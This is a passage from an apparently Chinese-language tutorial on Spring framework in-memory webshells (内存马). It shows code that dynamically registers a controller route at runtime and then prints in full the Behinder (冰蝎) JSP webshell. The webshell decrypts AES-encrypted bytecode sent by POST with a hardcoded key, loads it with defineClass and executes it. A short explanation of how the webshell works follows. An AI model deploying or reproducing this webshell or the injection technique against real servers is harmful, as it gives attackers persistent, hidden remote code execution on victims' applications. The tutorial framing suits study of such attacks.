 ```java
        RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);
        // 创建用于处理请求的对象
        HelloWorldController injectToController = new HelloWorldController();
        mappingHandlerMapping.registerMapping(info, injectToController, method2);
        model.addAttribute("name","aaron");
        return "hello";
    }
}

```
目录结构如下，其中`com.spring.Controller`包的俩controller分别是两种获取Child WebApplicationContext的方法实现

![image.png](Spring 框架内存马入门.assets/2023_05_19_10_30_49_nyzRGPMQ.png)

在代码中可以看到，访问/hello，就会执行hello方法，然后就会动态注入url=>/test，以及controller(test方法)

![image.png](Spring 框架内存马入门.assets/2023_05_19_10_30_50_bJqe2YB8.png)





#### 0x2 注入冰蝎马
冰蝎马如下
```java
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%>
<%!
class U extends ClassLoader{
	U(ClassLoader c){
    	super(c);
    }  //构造函数

	public Class g(byte []b){
		return super.defineClass(b,0,b.length);  // 调用父类的defineClass函数
	}
}
%>

<%
if (request.getMethod().equals("POST"))
	{
		String k="e45e329feb5d925b";
		session.putValue("u",k);
		Cipher c=Cipher.getInstance("AES");
		c.init(2,new SecretKeySpec(k.getBytes(),"AES"));
		new U(ClassLoader.class.getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);
	}
%>
```
可以看出，该jsp的核心功能有三点

- 为了方便地使用defineClass，创建了U这个类继承ClassLoader；
- 使用java自带的包，解密AES加密数据
- 使用defineClass加载AES解密后字节码，获得一个恶意类，利用newInstance创建这个类的实例，并调用equals方法
